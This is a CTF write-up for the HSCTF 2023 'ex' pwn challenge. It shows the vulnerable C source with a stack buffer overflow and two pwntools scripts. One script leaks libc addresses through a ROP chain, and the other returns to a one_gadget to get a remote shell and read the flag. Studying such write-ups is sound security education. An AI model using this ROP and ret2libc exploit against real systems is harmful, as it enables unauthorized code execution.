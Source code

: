 ```yaml
---
title: ex Writeup - HSCTF 2023
date: 2023-06-14
description: 
tags: [writeups, ctfs, pwn]
---
```


I recently competed in HSCTF and placed 3rd in the high school division with my team `sl1th3r`. I was asked to make a writeup for this challenge for verification and decided to also just put it on here (more filler for my blog :D).

# The Challenge
{{< zoom-img src="img/chall.png" >}}

We're provided two files, the binary and the source code. The provided source can be seen below.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char** argv) {
	char input[24];
	char filename[24] = "\0";
	char buffer[128];
	FILE* f = NULL;
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	if (argc > 1) {
		strncpy(filename, argv[1], 23);
	}
	while (1) {
		fgets(input, 128, stdin);
		input[strcspn(input, "\n")] = 0;
		if (input[0] == 'Q') {
			return 0;
		} else if (input[0] == 'f') {
			if (strlen(input) >= 3) {
				strcpy(filename, input + 2);
			}

			if (filename[0] == '\0') {
				puts("?");
			} else {
				puts(filename);
			}
		} else if (input[0] == 'l') {
			if (filename[0] == '\0') {
				puts("?");
			} else {
				if (strchr(filename, '/') != NULL) {
					puts("?");
					continue;
				}

				f = fopen(filename, "r");
				if (f == NULL) {
					puts("?");
					continue;
				}
				while (fgets(buffer, 128, f)) {
					printf("%s", buffer);
				}
				fclose(f);
			}
		} else {
			puts("?");
		}
	}
}
```

Obviously, theres one line here that sticks out.

```c
fgets(input, 128, stdin);
```

Now we have a pretty good direction of where to go for this challenge. Now we can check the protections on the binary to see if we'll need to do anything extra.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Everything looks great. No annoying canary to deal with and no weird leaks needed, right?

After looking through gadgets in the binary, there's nothing we can really do with them. That only leaves us with one more choice, using libc gadgets. But how can we do that if we aren't given a libc to work with? Well, we're able to leak the addresses of specific functions by passing its address in the GOT as an argument to `puts`. And I also recently happened to find out about a cool site ([libc.blukat.me](https://libc.blukat.me/)) that allows us to give it two addresses of functions and it'll tell us the libc. It does this by comparing the offsets between the two functions to other libc's and seeing what matches. We're able to leak two libc addresses using the following script.

```py
from pwn import *

elf = context.binary = ELF("./ex")

if args.REMOTE:
    io = remote("ex.hsctf.com", 1337)
else:
    io = process("./ex")

pop_rdi = p64(0x00000000004014f3)

def leak_addr(name):
    return pop_rdi+p64(elf.got[name])+p64(elf.plt["puts"])

payload = b'Q'+b'a'*39
payload += leak_addr("__libc_start_main")
payload += leak_addr("puts")
payload += p64(elf.symbols["main"])

io.sendline(payload)

print(elf.got)

leak1 = u64(io.recvline(keepends=False)+b'\x00\x00')
leak2 = u64(io.recvline(keepends=False)+b'\x00\x00')

print(hex(leak1))
print(hex(leak2))

io.interactive()
```

Using this, we get the following output on remote.

```
0x7f4a76cd8f90
0x7f4a76d39420
```

Inputting these values into the site I mentioned earlier, we get only one possible result.

{{< zoom-img src="img/libc-result.png" >}}

Thankfully the site also lets us download the libc. Using this, we can now use a basic libc leak to return to a one_gadget present in the libc.

I used the following script for this.

```py
from pwn import *

elf = context.binary = ELF("./ex")

libc = ELF("./libc.so.6")

if args.REMOTE:
    io = remote("ex.hsctf.com", 1337)
else:
    io = process("./ex")

pop_rnum = p64(0x00000000004014ec)
pop_rdi = p64(0x00000000004014f3)
one_gadget = 0xe3afe

payload = b'Q'+b'a'*39
payload += pop_rdi
payload += p64(elf.got["puts"])
payload += p64(elf.plt["puts"])
payload += p64(elf.symbols["main"])

io.sendline(payload)

leak = u64(io.recvline()[:-1]+b"\x00\x00")

libc.address = leak - libc.symbols["puts"]

print(hex(libc.address+one_gadget))

payload = b'Q'+b'a'*39
payload += pop_rnum
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(libc.address+one_gadget)

io.sendline(payload)

io.interactive()
```

I'm not sure why, but for some reason this script only works around 1/2 of the time? I can't really test why locally (my computer hates when I used a different libc on a binary) but if the script works then I guess theres no reason to complain. After popping shell, I check the root directory since I knew the flag wasn't going to be in the local directory (then you could just read it without the whole exploit) and there it was.

```
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Running `cat /flag.txt` gives us our flag :D

`flag{I_wonder_if_there's_an_emacs_command_for_writing_pwn_exploits?}`
